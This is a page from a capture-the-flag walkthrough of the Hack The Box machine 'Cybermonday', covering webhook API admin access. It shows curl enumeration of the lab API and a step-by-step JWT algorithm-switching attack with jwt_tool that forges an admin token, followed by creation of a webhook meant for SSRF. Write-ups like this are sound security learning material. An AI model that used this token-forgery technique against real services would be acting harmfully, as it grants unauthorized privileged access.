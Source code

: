 # HTB Cybermonday - Webhook API Admin Access

[Initial Enumeration](htb-cybermonday-1-initial-enumeration.md)
[**Webhook API Admin Access**](htb-cybermonday-2-webhook-api-admin.md)
[Obtaining More Info](htb-cybermonday-3-obtaining-more-info.md)
[Gaining a Foothold](htb-cybermonday-4-gaining-a-foothold.md)
[Where to Now?](htb-cybermonday-5-where-to-now.md)
[Reading the Source](htb-cybermonday-6-reading-the-source.md)
[Composing Root Access](htb-cybermonday-7-composing-root-access.md)

Navigating to the link itself just gets us a blank page. But if we go to the base URL (After adding the domain to our `hosts` file) we see a list of endpoints we can use.
```json
{
  "status": "success",
  "message": {
    "routes": {
...
```

First lets try the `GET /webhooks` endpoint. Since the other endpoints need a UUID it might help to see which ones have already been created. 
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks

{"status":"error","message":"Unauthorized"}
```


So we need authorization for this one. The same seems to be true for the create endpoint. We have the UUID for the webhook from the changelog so lets `POST` to that and see what happens.
```shell
$ curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77 -H "Content-Type: application/json" -d '{}'

{"status":"error","message":"\"log_name\" not defined"}
```

This must be a `createLogFile` webhook. Sending a `POST` with both the `log_name` and `log_content` fields doesn't seem to get us anything beyond a `Log created` message so lets leave that for now.

The login endpoint has a username and password so lets try some basic credentials like `admin:admin`. No luck there, let's go ahead and create an account for now. Once our account is created and we've logged in we obtain a JWT to use for our requests in the `x-access-token` header. Trying the `GET /webhooks` endpoint again we can now get a list of endpoints but there's only the `createLogFile` endpoint that we used before (unless there are other people also attempting to hack the box). If we try to use `/webhooks/create` however, we find we're still unauthorized. If we [inspect our JWT](https://jwt.io/) we find it holds the following payload:
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
{
  "id": 3,
  "username": "username",
  "role": "user"
}
```

So our role may be what's holding us back here. Since the security algorithm is RS256 the server may be open to an algorithm switching attack. First we need the public key our token. Querying the usual paths on the server we find the information in the `/jwks.json` path. From that we can extract the public key. Next we use `jwt_tool` to alter the payload and resign the token. 

First we'll extract the public key from the `jwks.json` file, then tamper with the payload and signature.
```shell
$ python3 ~/tools/jwt_tool/jwt_tool.py <your token> -V -jw jwks.json

Found RSA key factors, generating a public key
[+] kid_0_<timestamp>.pem

$ python3 ~/tools/jwt_tool/jwt_tool.py <your token> -T
$ python3 ~/tools/jwt_tool/jwt_tool.py <token from the above command> -X k -pk <your pem filename>
```

During the second command `jwt_tool` will ask what data you want to tamper with. Skip the header values, then change the `role` value in the payload to `admin`. After this you should have a new (much shorter) JWT that we can now try using to create a new webhook.
```shell
$ curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/create \
-H "x-access-token: <your spoofed token>" \
-H "Content-Type: application/json" \
-d '{"description": "ssrf", "name": "ssrfHook", "action": "sendRequest"}'

{"status":"success","message":"Done! Send me a request to execute the action, as the event listener is still being developed.","webhook_uuid":"<webhook id>"}
```

Success! Now lets see what we can get up to with this new endpoint.

Next: [Obtaining More Info](htb-cybermonday-3-obtaining-more-info.md)